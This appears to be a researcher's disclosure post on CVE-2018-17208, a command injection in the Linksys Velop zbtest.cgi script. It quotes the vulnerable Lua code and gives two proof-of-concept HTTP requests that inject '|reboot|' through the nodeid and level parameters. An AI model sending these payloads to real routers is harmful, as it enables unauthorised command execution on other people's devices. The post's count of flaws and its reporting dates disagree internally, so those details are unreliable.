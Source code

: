 ```yaml
---
published: true
categories: [vulnerability,Linksys]
tags: [CVE-2018-17208]
---
```


### Affected Software
Firmware version:	The firmware version which I test is 1.1.2.185309
### Product Background
Velop is WHOLE HOMEMESH Wi-Fi system from LINKSYS. It allows users enjoy fast, nonstop Wi-Fi everywhere with Velop’s modular easy-to-use Wi-Fi Mesh system.
There are three categories from their official site :WHW0303,WHW0302,WHW0301. The differences between these three is the pack count: 1, 2 or 3. The system are the same.
### Vulnerability Details
CVE-2018-17208

Since this bug is very easy and there is another researcher has (published)[https://langkjaer.com/velop.html] the anlysis, so I wont analyze it too much.

zbtest.cgi in /cgi-bin/ is a lua script and we took a look into it. The most interesting part starts from line 480:
~~~lua
-- Here is a some code that can control bulb
cmd = params["cmd"]
node_id = params["nodeid"]
level = params["level"]

if cmd == nil then
  node_id = nil
  start_zb_network()
  print("Run zbtest.cgi<br>")
elseif cmd == "permit" then
  permit_zb_network()
  print("Run permit command<br><br>")
elseif cmd == "rescan" then
  print("Run rescan command<br><br>")
  node_id = nil
elseif cmd == "remove" and node_id then
  print("Run remove command : "..node_id.."<br><br>")
  remove_bulbs(node_id)
  node_id = nil
elseif cmd == "on" and node_id then
  print("Run turn on command : "..node_id.."<br><br>")
  name = "/tmp/Belkin_settings/zbdev."..node_id..".state"
  ShellExecute("zbapitest on-off "..node_id.." 1 > "..name.." 2>&1")
  bulbs, err = table.load("/tmp/Belkin_settings/bulbs.tlb")
  bulbs[node_id].onoff = "1"
  table.save(bulbs, "/tmp/Belkin_settings/bulbs.tlb")
elseif cmd == "off" and node_id then
  print("Run turn off command : "..node_id.."<br><br>")
  name = "/tmp/Belkin_settings/zbdev."..node_id..".state"
  ShellExecute("zbapitest on-off "..node_id.." 0 > "..name.." 2>&1")
  bulbs, err = table.load("/tmp/Belkin_settings/bulbs.tlb")
  bulbs[node_id].onoff = "0"
  table.save(bulbs, "/tmp/Belkin_settings/bulbs.tlb")
elseif cmd == "level" and level and node_id then
  print("Run level ("..level..") command : "..node_id.."<br><br>")
  -- name = "/tmp/Belkin_settings/zbdev."..node_id..".state"
  -- ShellExecute("zbapitest level "..node_id.." "..level.." 0 > "..name.." 2>&1")
  ShellExecute("zbapitest level "..node_id.." "..level.." 0 1")
  bulbs, err = table.load("/tmp/Belkin_settings/bulbs.tlb")
  bulbs[node_id].level = level
  table.save(bulbs, "/tmp/Belkin_settings/bulbs.tlb")
end
~~~

We can deliver 3 parameters to the zbtest.cgi: cmd, nodeid and level. There are 5 command injection problems in this code snippet.

- cmd with "remove", no check of node_id
- cmd with "on", no check of node_id
- cmd with "off", no check of node_id
- cmd with "level", no check of node_id and level

#### PoC
~~~http
GET /cgi-bin/zbtest.cgi?cmd=off&nodeid=|reboot| HTTP/1.1
Host: 192.168.1.1
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
DNT: 1
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: visited-index=true
Connection: close
~~~

~~~http
GET /cgi-bin/zbtest.cgi?cmd=level&nodeid=0x0&level=1|reboot| HTTP/1.1
Host: 192.168.1.1
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
DNT: 1
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: visited-index=true
Connection: close
~~~

### Timeline

We reported the bug to the vendor in Feb,2019 and they released a patch in August:

~~~text
2018.04.04: Found the bug

2018-09-19: Another researcher published the bug with link: (link)[https://langkjaer.com/velop.html]
~~~
